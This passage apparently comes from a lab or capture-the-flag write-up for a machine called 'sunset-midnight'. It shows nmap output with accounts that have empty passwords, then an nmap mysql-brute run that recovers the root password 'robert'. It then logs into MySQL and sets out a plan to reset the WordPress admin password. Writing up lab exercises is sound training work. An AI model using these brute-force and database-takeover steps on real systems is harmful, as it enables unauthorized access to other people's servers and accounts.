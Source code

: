     |     sysadmin:<empty> - Valid credentials
    |     administrator:<empty> - Valid credentials
    |     webadmin:<empty> - Valid credentials
    |     admin:<empty> - Valid credentials
    |     test:<empty> - Valid credentials
    |_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
    
    Nmap done: 1 IP address (1 host up) scanned in 472.02 seconds

----------------------------------------------------------------------------------------------------------------------------------------------------

# Exploit

## Brute force credentials of MySQL server

  We could put this list of users into a text file and conduct an brute force attack however in this case we can simply use another buitin nmap script for MySQL brute force.

    nmap --script=mysql-brute -p 3306 192.168.94.88

We see that the script finds a password for the root user

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 16:58 EDT
    Nmap scan report for sunset-midnight (192.168.94.88)
    Host is up (0.83s latency).

    PORT     STATE SERVICE
    3306/tcp open  mysql
    | mysql-brute: 
    |   Accounts: 
    |     root:robert - Valid credentials
    |_  Statistics: Performed 31749 guesses in 600 seconds, average tps: 50.1

    Nmap done: 1 IP address (1 host up) scanned in 600.67 seconds:

User: root
Pass: robert
	
## Modify admin user password in Wordpress database to gain access the the Wordpress Control Panel

With our credentials we can now log into the SQL server:

    mysql --host=192.168.94.88 -u root -p

Once connected we can list the available databases:
